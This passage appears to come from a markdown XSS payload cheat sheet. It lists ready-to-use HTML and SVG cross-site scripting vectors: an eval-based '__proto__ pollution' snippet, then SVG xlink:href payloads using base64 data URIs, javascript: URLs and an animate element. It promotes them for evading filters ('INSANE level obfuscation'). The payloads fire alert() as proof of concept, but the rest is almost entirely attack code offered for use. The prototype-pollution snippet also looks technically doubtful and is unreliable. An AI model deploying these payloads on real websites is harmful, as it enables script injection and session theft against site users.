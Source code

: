 ### __proto__ Pollution
```html
<iframe srcdoc="<form id='__proto__'><input name='polluted' value='alert(1)'></form>"></iframe>
<script>
setTimeout(() => {
    if(window.__proto__ && window.__proto__.polluted) {
        eval(window.__proto__.polluted);
    }
}, 100);
</script>
```

---

## 🎨 SVG xlink:href Trickery

**Complex SVG vector attacks - INSANE level obfuscation!**

### Basic SVG Use with xlink:href
```html
<svg><use xlink:href="data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPjxzY3JpcHQ+YWxlcnQoJ1NWRyB4bGluayBYU1MnKTwvc2NyaXB0Pjwvc3ZnPg=="#xss"></use></svg>
```

### External xlink Reference
```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<defs>
<g id="xss">
<script>alert('SVG xlink:href XSS')</script>
</g>
</defs>
<use xlink:href="#xss"/>
</svg>
```

### JavaScript Protocol
```html
<svg><use xlink:href="javascript:alert('xlink:href JavaScript XSS')"></use></svg>
```

### Data URI with Base64
```html
<svg><use xlink:href="data:text/html;charset=utf-8;base64,PHNjcmlwdD5hbGVydCgnU1ZHIGRhdGEgVVJJIFhTUycpPC9zY3JpcHQ+"></use></svg>
```

### Animation-based XSS
```html
<svg xmlns:xlink="http://www.w3.org/1999/xlink">
<animate xlink:href="javascript:alert('SVG animate XSS')" attributeName="href" dur="1s"/>
</svg>
```
